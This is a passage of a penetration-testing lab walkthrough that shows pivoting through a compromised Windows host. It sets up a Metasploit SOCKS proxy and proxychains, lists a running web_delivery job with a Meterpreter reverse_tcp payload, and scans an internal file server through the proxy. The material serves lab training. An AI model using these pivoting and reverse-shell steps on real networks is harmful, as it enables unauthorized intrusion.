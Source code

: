 _Configuring proxychains to use a SOCKS proxy on port 9050._

`cat /etc/proxychains4.conf`:
```
...

[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050 ←
```

`search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set VERSION 4a`, `set SRVPORT 9050`, `set SRVHOST 10.10.23.2`, `run`:
```
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server
```

`jobs`:
```
Jobs
====

  Id  Name                                Payload                          Payload opts
  --  ----                                -------                          ------------
  0   Exploit: multi/script/web_delivery  windows/meterpreter/reverse_tcp  tcp://10.10.23.2:4444
  1   Auxiliary: server/socks_proxy
```

_Scanning the internal host `fileserver.ine.local` via proxychains to identify open ports._

`proxychains nmap -Pn -sT -sV -F fileserver.ine.local`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-07 14:41 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:53 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:587 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:445  ...  OK

...

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:80  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  fileserver.ine.local:80  ...  OK
Nmap scan report for fileserver.ine.local (224.0.0.1)
Host is up (1.1s latency).
rDNS record for 224.0.0.1: all-systems.mcast.net
Not shown: 95 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          BadBlue httpd 2.7 ←
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.79 seconds
```
